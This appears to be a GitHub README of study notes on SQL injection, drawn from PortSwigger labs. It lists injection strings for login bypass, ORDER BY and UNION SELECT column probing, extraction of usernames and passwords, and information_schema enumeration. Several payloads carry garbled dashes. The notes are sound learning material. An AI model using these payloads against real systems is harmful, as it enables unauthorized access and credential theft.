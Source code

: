 # SQL-Injection_Bug_Bounty
##All taken fron portswigger lab

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like:

	https://insecure-website.com/products?category=Gifts'--
This results in the SQL query:

	SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about:

	https://insecure-website.com/products?category=Gifts'+OR+1=1--
  
	SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
	since 1=1 is always true
Check response:    ‘--      |   #--

**Subverting application logic/Login form:**

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:

	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

![image](https://user-images.githubusercontent.com/37367596/192005023-3f13a816-0a13-4f0a-8ff5-cf85222e8604.png)


**Retrieving data from other database tables/Union attack:**

For a UNION query to work, two key requirements must be met:

 1.The individual queries must return the same number of columns.
 
 2.The data types in each column must be compatible between the individual queries.

To carry out an SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out

 1.How many columns are being returned from the original query?
 
 2.Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
 
**There are two effective methods to determine how many columns are being returned from the original query.**
**The first method** involves injecting a series of** ORDER BY** clauses and incrementing the specified column index until an error occurs.

' ORDER BY 1--

 ' ORDER BY 2-- 
 
' ORDER BY 3--
etc.
![image](https://user-images.githubusercontent.com/37367596/192006415-207e60bb-4977-4895-9a57-43fed4f6c250.png)


The application might actually return the **database error** in its HTTP response, or it might return a **generic error**, or simply return **no results**

**The second method** involves submitting a series of UNION SELECT payloads specifying a different number of null values

' UNION SELECT NULL—

 ' UNION SELECT NULL,NULL—
 
 ' UNION SELECT NULL,NULL,NULL– 

' UNION SELECT NULL FROM DUAL--     (oracale database)

**Finding columns with a useful data type(string/int/or other types) in an SQL injection UNION attack**

' UNION SELECT NULL,NULL,NULL,'a'—

' UNION SELECT NULL,'a',NULL,NULL—

' UNION SELECT username, password(coloumns) FROM users– (table)

![image](https://user-images.githubusercontent.com/37367596/192007589-7f01ddc9-e5a5-40a5-8004-c2c116e0ca55.png)

![image](https://user-images.githubusercontent.com/37367596/192009263-e2ee5bbc-e882-44d2-835a-b46c1b5ad3aa.png)

**Listing the contents of the database:**

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

	SELECT * FROM information_schema.tables
	
**You can then query information_schema.columns to list the columns in individual tables**

	SELECT * FROM information_schema.columns WHERE table_name = 'Users
	
	

	






